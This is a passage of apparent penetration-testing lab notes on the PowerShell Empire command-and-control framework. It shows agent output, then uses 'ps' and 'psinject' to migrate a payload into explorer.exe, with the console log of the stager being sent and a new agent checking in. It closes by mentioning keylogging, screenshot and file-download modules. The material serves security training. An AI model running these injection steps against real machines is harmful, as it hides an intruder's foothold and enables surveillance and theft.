 ```bash
OS: Microsoft Windows 10 Pro
High Integrity: 0
Process Name: powershell
Process ID: 2976
Language: powershell
Language Version: 5
...
```

### Migrate process

Empire allows us to migrate our payload into a different process. We can do that by first using `ps` to view all running processes.
Once we choose our target process, we’ll migrate the payload with `psinject` command, including the name of the listener and the process id as our command arguments:

```bash
(Empire: S2Y5XW1L) > ps
ProcessName PID Arch UserName MemUsage
----------- --- ---- -------- --------
Idle 0 x86 N/A 0.00 MB
System 4 x86 N/A 0.00 MB
........
explorer 3568 x86 corp\offsec 3.41 MB
svchost 3820 x86 corp\offsec 9.18 MB
........

(Empire: S2Y5XW1L) > psinject http 3568
[*] Tasked U9M3SBHG to run TASK_CMD_JOB
[*] Agent U9M3SBHG tasked with task ID 4
[*] Tasked agent U9M3SBHG to run module powershell/management/psinject
Job started: BCMWAV
[*] Agent U9M3SBHG returned results
[*] Sending POWERSHELL stager (stage 1) to 10.11.0.22
[*] New agent DWZ49BAP checked in
[+] Initial agent DWZ49BAP from 10.11.0.22 now active (Slack)
[*] Sending agent (stage 2) to DWZ49BAP at 10.11.0.22 //-->

Empire: DWZ49BAP) > agents
[*] Active agents:
Name Lang Internal IP Machine Name Username Process Delay
--------- ---- ----------- ------------ --------- ------- -----
S2Y5XW1L ps 10.11.0.22 CLIENT251 corp\offsec powershell/2976 5/0.0
DWZ49BAP ps 10.11.0.22 CLIENT251 corp\offsec explorer/3568 5/0.0
(Empire: agents) > interact DWZ49BAP
```

### Powershell Modules

The power of Empire agents lies in the various **modules** offered by the framework. The modules are divided into **multiple categories** but also include basic features such as keylogging, screenshots, and file downloads.
